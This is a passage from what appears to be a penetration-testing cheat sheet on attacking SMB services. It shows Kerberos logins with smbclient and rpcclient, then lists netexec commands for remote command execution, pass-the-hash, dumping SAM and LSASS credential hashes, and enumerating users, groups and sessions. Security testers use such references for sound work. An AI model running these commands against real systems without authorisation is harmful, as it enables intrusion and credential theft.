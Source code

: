 The command `smbstatus` gives information about the **server** and about **who is connected**.

## Authenticate using Kerberos

You can **authenticate** to **kerberos** using the tools **smbclient** and **rpcclient**:

```
smbclient --kerberos //ws01win10.domain.com/C$
rpcclient -k ws01win10.domain.com
```

## **Execute Commands**

### 


**netexec**

```
apt-get install crackmapexec

#Execute Powershell
netexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' 

#Excute cmd
netexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami 

# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}
netexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash

#Dump SAM
netexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam 

#Dump LSASS in memmory hashes
netexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa 

#Get sessions (
netexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions 

#Get logged-on users
netexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users 

#Enumerate the disks
netexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks 

#Enumerate users
netexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users 

# Enumerate groups
netexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups 

# Enumerate local groups
netexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups 

#Get password policy
netexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol 

#RID brute
netexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute 

#Pass-The-Hash
netexec smb <IP> -d <DOMAIN> -u Administrator -H <HASH> 
```
